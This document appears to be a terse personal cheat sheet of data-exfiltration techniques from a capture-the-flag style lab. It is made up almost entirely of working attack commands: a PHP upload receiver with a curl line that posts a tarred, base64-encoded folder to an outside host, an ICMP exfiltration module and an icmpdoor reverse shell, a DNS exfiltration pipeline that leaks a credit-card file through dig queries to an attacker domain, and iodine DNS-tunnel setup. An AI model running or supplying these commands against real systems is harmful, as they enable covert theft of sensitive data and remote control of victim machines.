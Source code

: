 [+] http 

<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>

curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php

sed -i 's/ /+/g' /tmp/http.bs64
cat /tmp/http.bs64 | base64 -d | tar xvfz -


[+] tunnling 
https://github.com/L-codes/Neo-reGeorg



[+] ICMP

use auxiliary/server/icmp_exfil
set BPF_FILTER icmp and not src ATTACKBOX_IP


reverse shell 
victim 
 icmpdoor -i eth0 -d 192.168.0.133
 attacker 
 icmp-cnc -i eth1 -d 192.168.0.121



 [+] DNS Exfiltration 
  cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/' 

  cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash
 echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d


 [+] DNS tunnling
 setup NS record value attacker ip 
 run command on attacker vm 
 sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com 

 victim vm 
  sudo iodine -P thmpass att.tunnel.com 
  